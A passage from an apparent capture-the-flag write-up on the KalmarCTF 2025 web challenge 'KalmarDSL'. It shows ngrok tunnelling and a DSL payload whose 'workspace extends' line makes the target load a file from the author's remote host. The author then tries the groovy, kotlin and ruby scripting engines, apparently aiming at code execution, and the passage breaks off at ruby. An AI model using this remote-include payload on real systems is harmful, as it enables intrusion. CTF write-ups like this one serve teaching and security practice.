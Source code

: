 ```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/KalmarDSL)-[2025.03.13|16:33:20(HKT)]
└> ngrok tcp 8000
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:17964 -> localhost:8000                               
[...]
```

Then, we can submit (Render) the following DSL payload:

```
workspace extends http://0.tcp.ap.ngrok.io:17964/exploit.dsl {
    
}
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/KalmarCTF-2025/images/Pasted%20image%2020250313163426.png)

Wait, `Could not load a scripting engine for extension "groovy"`?? It seems like it doesn't support Groovy.

How about `kotlin`?

![](https://github.com/siunam321/CTF-Writeups/blob/main/KalmarCTF-2025/images/Pasted%20image%2020250313163618.png)

Nope.

`ruby`??
